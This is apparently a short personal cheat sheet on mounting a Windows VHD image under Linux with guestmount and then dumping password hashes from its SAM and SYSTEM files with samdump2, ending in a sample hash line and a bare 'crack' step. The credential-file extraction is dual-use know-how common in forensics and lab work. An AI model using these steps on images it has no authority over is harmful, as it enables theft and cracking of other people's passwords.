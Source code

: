 # Mount a Windows vhd image on linux

## following command for mounting image
```cheat guestmout Mount an image
guestmount --add image.vhd --inspector --ro /mnt/image
```


## dumping passwords from image
```
cd /Windows/System32/config

samdump2 SYSTEM SAM
User:1000:aad3b435b5ll1404eeaad3b435b51404ee:2611201357d963c8dc4217daec986d9:::

crack 
```


tags: wget ftp linux
